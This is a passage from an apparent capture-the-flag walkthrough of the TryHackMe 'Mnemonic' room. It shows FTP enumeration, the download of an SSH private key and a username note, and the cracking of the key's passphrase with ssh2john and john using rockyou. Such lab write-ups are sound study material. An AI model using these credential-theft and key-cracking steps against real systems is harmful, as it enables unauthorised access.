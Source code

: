 ~~~
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-3
drwxr-xr-x    4 0        0            4096 Jul 14  2020 data-4
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-5
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-6
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-7
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-8
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-9
226 Directory send OK.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14  2020 .
drwx------   12 1003     1003         4096 Jul 14  2020 ..
drwxr-xr-x    2 0        0            4096 Jul 14  2020 3
drwxr-xr-x    2 0        0            4096 Jul 14  2020 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13  2020 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13  2020 not.txt
226 Directory send OK.
ftp> mget *
mget 3? n
mget 4? n
mget id_rsa? y
200 PORT command successful. Consider using PASV.
y150 Opening BINARY mode data connection for id_rsa (1766 bytes).
226 Transfer complete.
1766 bytes received in 0.00 secs (27.6097 MB/s)
mget not.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for not.txt (31 bytes).
226 Transfer complete.
31 bytes received in 0.00 secs (110.0852 kB/s)
~~~

`id_rsa` is an RSA private key. By reading the `not.txt`, we obtain a username:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ cat not.txt         
james change ftp user password
~~~

SSH username: `james`

### 3.4 - What is the ssh password?

I attempted to connect to SSH using the key and the username we just obtained, but we need a password. Let's crack the private key. First I used an additional tool called `ssh2john` to change the format of the key to be crackable by `john`. Then I ran `john` with `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ /usr/share/john/ssh2john.py id_rsa > rsa.hash 
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bluelove         (id_rsa)
~~~
